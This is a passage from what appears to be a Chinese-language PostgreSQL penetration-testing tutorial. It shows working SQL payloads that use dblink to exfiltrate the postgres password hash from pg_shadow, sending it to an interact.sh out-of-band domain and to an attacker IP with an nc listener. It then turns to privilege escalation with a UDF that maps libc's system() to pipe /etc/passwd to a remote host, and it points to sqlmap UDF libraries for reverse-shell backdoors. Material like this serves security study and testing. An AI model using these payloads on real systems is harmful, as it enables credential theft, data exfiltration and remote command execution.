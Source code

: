 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>-- 查询当前密码<br>SELECT * FROM dblink('host='\|(SELECT passwd FROM pg_shadow WHERE usename='postgres')\|'.c8jrsjp2vtc0000rwce0grjcc3oyyyyyb.interact.sh user=test dbname=test', 'SELECT version()') RETURNS (result TEXT);<br>``` |

[![](assets/1710209150-8a162bd9525a80b33a30617acb1140ca.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/34.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>-- nc 监听<br>nc -lvv 4444<br><br>select dblink_connect((select 'hostaddr=x.x.x.x port=4445 user=test password=test sslmode=disable dbname='\|(SELECT passwd FROM pg_shadow WHERE usename='postgres')));<br>``` |

[![](assets/1710209150-aadc692718f5370aa0b516f4a4455320.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/35.png)

- - -

# [](#postgresql-%E6%8F%90%E6%9D%83)PostgreSQL 提权

## [](#%E5%88%A9%E7%94%A8-udf-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)利用 UDF 命令执行

在 8.2 以前，postgresql 不验证 magic block, 可以直接调用本地的 libc.so

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```sql<br>CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;<br>SELECT system('cat /etc/passwd \| nc xxx.xx.xx.xx');<br>``` |

8.2 以上版本，需要自己编译 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的

-   [https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql](https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql)
